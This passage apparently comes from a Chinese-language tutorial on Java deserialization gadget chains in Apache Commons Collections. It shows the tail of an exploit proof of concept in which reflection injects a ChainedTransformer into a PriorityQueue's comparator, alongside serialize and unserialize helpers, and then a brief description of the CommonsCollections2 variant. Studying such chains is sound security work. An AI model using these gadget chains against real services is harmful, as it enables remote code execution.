 ```bash

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        //size长度要加2
        priorityQueue.add(1);
        priorityQueue.add(1);

        Class c = transformingComparator.getClass();
        Field transformedField = c.getDeclaredField("transformer");
        transformedField.setAccessible(true);
        transformedField.set(transformingComparator,chainedTransformer);

//        serialize(priorityQueue);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## CommonsCollections2:

不走`TrAXFilter.class`的路线，直接用`InvokerTransform`调用`newTransformer`，通过 add 来传入参数，不使用自定义数组`ConstantTransformer`了

[![](assets/1701612311-bf05d92c2ca499434ea9e3f487539fab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235607-9d53d390-20cc-1.png)
